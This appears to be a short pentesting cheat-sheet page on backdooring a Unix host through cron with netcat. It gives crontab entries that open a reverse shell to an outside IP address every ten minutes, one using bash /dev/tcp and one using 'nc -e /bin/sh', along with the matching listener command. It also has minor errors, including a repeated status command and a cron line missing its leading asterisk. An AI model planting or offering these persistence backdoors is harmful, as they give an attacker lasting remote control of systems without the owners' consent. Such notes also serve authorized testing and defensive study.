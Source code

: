 # nc \(ncat\)

## Cronjob NC

* creates cronjob that connects to your machine every 10 minutes
* example using a bash-reverse-shell
* also set up a netcat listener.
* here is how you check if cronjob is active

```bash
service crond status
```

```bash
pgrep cron
```

* if it is not started you can start it like this

```bash
service crond status
```

```bash
/etc/init.d/cron start
```

```bash
crontab -e
```

```bash
*/10 * * * * 0<&196;exec 196<>/dev/tcp/192.168.1.102/5556; sh <&196 >&196 2>&196
/10 * * * * nc -e /bin/sh 192.168.1.21 5556
```

* listener

```bash
nc -lvp 5556
```

sometimes you have to set the user

```bash
crontab -e
```

```bash
*/10 * * * * pelle /path/to/binary
```

## More Here

* [http://kaoticcreations.blogspot.cl/2012/07/backdooring-unix-system-via-cron.html](http://kaoticcreations.blogspot.cl/2012/07/backdooring-unix-system-via-cron.html)

